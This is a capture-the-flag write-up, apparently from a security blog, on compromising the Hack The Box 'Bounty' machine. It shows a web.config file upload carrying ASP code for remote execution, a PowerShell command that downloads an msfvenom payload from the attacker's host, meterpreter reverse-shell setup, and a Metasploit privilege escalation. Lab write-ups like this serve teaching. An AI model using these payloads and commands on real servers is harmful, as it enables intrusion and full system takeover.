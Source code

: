 :page-slug: bounty-writeup/
:page-date: 2018-10-29
:page-category: attacks
:page-subtitle: How to resolve HTB Bounty
:page-tags: security, htb, pwn, web
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/cover_plk66f.webp
:page-alt: Hand holding a pirate toy
:page-description: In this article, we present how to exploit a Bounty machine's vulnerabilities and how to gain access as an Administrator and obtain the root flag.
:page-keywords: HTB, Security, Hack the Box, Web, Writeup, Bounty, Vulnerabilities, Hacker, Ethical Hacking, Pentesting
:page-author: Jonathan Armas
:page-writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/NctO2nqkWCY

= Bounty Writeup

== Scanning Phase

First, we check the IP of the
link:https://www.hackthebox.eu/home/machines/profile/142[Bounty]
machine and try a `ping`
to see if we have access.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/bounty-ip_gqy6uf.webp[ip]

.ping
[source, bash]
----
host$ ping -c2 10.10.10.93
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/ping_trcnb5.webp]

Then, we scan the ports with `nmap`.
In this case, we’re going to use basic `nmap`.

[source, bash]
----
host$ nmap 10.10.10.93
----

And, we see that there is only one port open `port 80`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/nmap_earkie.webp[nmap]

Then, we try to access `port 80` with our browser,
and it opens a web page with an image of Merlin.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/web_fdltrp.webp[web-page]

As we see on this page,
there is nothing more than an image,
so we’re going to scan the whole web server with `dirbuster`
to see if we can access something useful.

[source, bash]
----
host$ dirb http://10.10.10.91
----


image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/dirb_ozvyui.webp[dirb-scan]

Here we found a folder where uploaded files are stored.
We need the page of the upload functionality.
With `dirbuster`, and some options,
we can set different extensions and obtain what we are looking for.
Since this is a `Windows` machine,
we are going to use `asp` and `aspx` extensions.

[source, bash]
----
host$ dirb http://10.10.10.91 -X .asp,.aspx
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/dirb2_kjlopp.webp[dirb-scan2]
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/upload-page_eu4cfl.webp[upload-page]

== Getting user

In the last step we got an upload page,
but with no further instructions.
There we can try to upload an image
and check the result.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp[upload1]

But if we try with a webshell in `aspx` or `asp`
it returns an error.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/upload2_dgzfkc.webp[upload2]

The web server has a filter
that possibly checks the extension of the uploaded file.
If you try with double extension it won’t work either.

So what can we do?
In `Windows` there are `3` major types of extensions:
`asp`, `aspx`, and `config`.
We already tried the `asp` and `aspx` extensions,
what happens if we upload a `web.config` file?

[source, xml,linenums]
----
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*"
           modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll"
           resourceType="Unspecified"
           requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp[upload11]

We can see the result is positive.
The `web.config` file is used by `IIS` servers
to store settings that come with the installation of the `API`.

With this, we can start to exploit this machine.
There is a vulnerability on the `web.config` file processing
that could allow an attacker to execute code remotely,
by injecting `asp` code in the file
(More information can be found
link:https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/[here]
).

So, in order to have remote code execution (`RCE`),
we need to add the following lines
to our `web.config` file:

----
<!--
<%
Response.write("-"&"->")
Response.write("</p><pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd.exe /c whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><p><!-"&"-")
%>
-->
----

Then, we upload it,
and access the file via the web, as before.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/rce-ok_ae3o75.webp[rce-ok]

*Eureka!* With this, we can have our user flag,
but we want an active shell
that we can use for further enumeration.
For this, we can use `msfvenom`.
This is a tool that creates payloads
in order to gain access to a machine.
It is installed by default on `Kali`;
it also comes with the installation of `Metasploit`.
Then, we upload our file to the server with our `RCE`
and start a web server on our side
to download our exploit.

First, the exploit with msfvenom:

[source, bash]
----
host$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip.ip.ip.ip LPORT=port -f exe -o myexploit.exe --smallest
----

This will create a malicious file.
When executed on the server
it will give us a reverse shell with our `RCE` file using `meterpreter`.
This is an advanced, dynamically extensible payload
that uses in-memory `DLL` injection stagers,
and is extended over the network at runtime.

Then we need to start a web server in our machine.
We can do it with `Python` by running:

[source, bash]
----
host$ python -m SimpleHTTPServer 7000
----

To make the server download our file,
we can use the next `PowerShell` command
in our `web.config` file
replacing the `whoami` one:

[source, xml]
----
Set cmd1 = wShell1.Exec("cmd.exe /c powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://ip.ip.ip.ip:7000/myexploit.exe', 'C:\Windows\Temp\myexploit.exe')")
----

Upload it, and then open it on a private tab.
Now, we can see that the server downloaded our file.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/download_cxvzgn.webp[download]

Then we need to start our listener.
We can use `Metasploit` to do it:

[source, bash]
----
host$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST ip.ip.ip.ip
msf exploit(multi/handler) > set LPORT port
msf exploit(multi/handler) > run
----

With this, we are ready to initiate our reverse shell.
In order to do it,
we need to run our exploit on the server
with the same `RCE` method as before,
changing the command to the following:

[source, xml]
----
Set cmd1 = wShell1.Exec("cmd.exe /c C:\Windows\Temp\myexploit.exe")
----

Upload it, open the page of the `web.config` file
and we have our reverse shell.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330671/blog/bounty-writeup/reverse-shell_v0yoxx.webp[reverse-shell]

== Getting root

With `meterpreter`
we can start to enumerate the server.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/sys-info_wlfn7g.webp[sys-info]

And, we see that the server has an `x64 Architecture`.
We are going to repeat the process
(`msfvenom`, `upload`, `handler`, `run`)
but now with the payload:

----
windows/x64/meterpreter/reverse_tcp
----

Then, when we have another session opened,
we are going to run the next one:

[source,bash]
----
meterpreter > run post/multi/recon/local_exploit_suggester
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/exploit-suggester_cr3q7v.webp[exploit-suggester]

Here we got some exploits
that we can use to elevate to `Administrator`,
we are going to use the first one with:

[source,bash]
----
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > set SESSION sessionnum
msf exploit(windows/local/ms10_092_schelevator) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ms10_092_schelevator) > set LPORT port
msf exploit(windows/local/ms10_092_schelevator) > set LHOST ip.ip.ip.ip
msf exploit(windows/local/ms10_092_schelevator) > run
----

When it finishes,
we will have a new session created
and with user `NT Authority\System`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/admin_bqoqsf.webp[admin]

With this we can read our `root` flag.

On this challenge, we learned there was a vulnerability
with the `web.config` file.
We also learned to always check the architecture
when we access a machine as a user,
and how to use some of the `meterpreter` commands.
